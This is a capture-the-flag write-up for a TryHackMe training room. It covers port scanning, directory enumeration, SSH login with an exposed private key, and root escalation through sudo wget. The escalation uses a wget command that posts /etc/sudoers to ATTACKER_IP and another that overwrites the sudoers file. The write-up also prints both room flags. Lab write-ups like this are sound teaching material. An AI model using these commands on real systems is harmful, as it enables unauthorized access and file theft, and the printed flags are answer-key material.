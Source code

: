 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Exploitation](#exploitation)
4. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```shell-session
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

We begin with some port scans:
```shell-session
$ rustscan -b 4500 -a TARGET_IP -r 1-65535 --ulimit 5000 -t 2000 -- -oN rustscan_port_scan.txt 
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

$ rustscan -b 4500 -a TARGET_IP -p 22,80 --ulimit 5000 -t 2000 -- -sV -oN rustscan_service_scan.txt
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The page on port 80 is the default ubuntu apache page. Let's conduct some nice directory enumeration:
```shell-session
$ gobuster dir -t 64 -x txt,xml,php -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gobuster_common.txt
/sitemap              (Status: 301) [Size: 312] [--> http://TARGET_IP/sitemap/]
/server-status        (Status: 403) [Size: 276]
```

Nothing special here, but looking through the page source, we find a comment saying: ` <!-- Jessie don't forget to udate the webiste -->`. This is a potential username we can use for brute force attacks...

Visiting the `/sitemap/` directory brings us to a web page that makes use of something called `umap`. Let's try and do some enumeration here:
```shell-session
$ gobuster dir -t 64 -x txt,xml,php -u http://TARGET_IP/sitemap/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -o gobuster_common.txt
/.hta                 (Status: 403) [Size: 276]
/.hta.php             (Status: 403) [Size: 276]
/.hta.xml             (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess.xml        (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/.htpasswd.xml        (Status: 403) [Size: 276]
/.ssh                 (Status: 301) [Size: 317] [--> http://TARGET_IP/sitemap/.ssh/]
/.htaccess.php        (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 316] [--> http://TARGET_IP/sitemap/css/]
/fonts                (Status: 301) [Size: 318] [--> http://TARGET_IP/sitemap/fonts/]
/images               (Status: 301) [Size: 319] [--> http://TARGET_IP/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 315] [--> http://TARGET_IP/sitemap/js/]
```

The `/.ssh/` directory is accessible and gives us a "`id_rsa`" file, which can be used to log into the ssh service on port 22 (using the username `jessie`):
```shell-session
$ wget http://TARGET_IP/sitemap/.ssh/id_rsa
$ chmod 600 id_rsa
$ ssh -i id_rsa jessie@TARGET_IP
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$
```

And we're in! Let's move onto the exploitation phase

## Exploitation
```shell-session
jessie@CorpOne:~$ ls ./*
./examples.desktop

./Desktop:

./Documents:
user_flag.txt

./Downloads:

./Music:

./Pictures:

./Public:

./Templates:

./Videos:
jessie@CorpOne:~$ cat Documents/user_flag.txt 
057c67131c3d5e42dd5cd3075b198ff6
```

> User flag
> 
> Answer: `057c67131c3d5e42dd5cd3075b198ff6`

Let's do some basic user/OS recon before trying to escalate privileges:
```shell-session
jessie@CorpOne:~$ uname -a
Linux CorpOne 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:19 UTC 2019 i686 i686 i686 GNU/Linux

jessie@CorpOne:~$ cat /etc/issue
Ubuntu 16.04.6 LTS \n \l

jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Since `jessie` can execute `wget` with root privileges and no passwords, we can try and gain a root shell by exploiting this:
```shell-session
## On our machine:
$ nc -nvlp 8888 > sudoers

## On target machine:
jessie@CorpOne:~$ sudo wget --post-file=/etc/sudoers ATTACKER_IP:8888
```

Now, we terminate the listener and change the `sudoers` file's contents to the following:
```txt
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
# jessie        ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL
```

Then, we start a `http` server and fetch this file onto the target, saving the output into `/etc/sudoers`:
```shell-session
## On our machine:
$ python3 -m http.server 8080 

## On the target machine:
jessie@CorpOne:~$ sudo wget http://ATTACKER_IP:8080/sudoers -O /etc/sudoers
jessie@CorpOne:~$ sudo bash
root@CorpOne:~# cd /root
root@CorpOne:/root# ls
root_flag.txt
root@CorpOne:/root# cat root_flag.txt 
b1b968b37519ad1daa6408188649263d
```

## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Wget CTF](https://tryhackme.com/room/wgelctf) by [MrSeth6797](https://tryhackme.com/p/MrSeth6797)
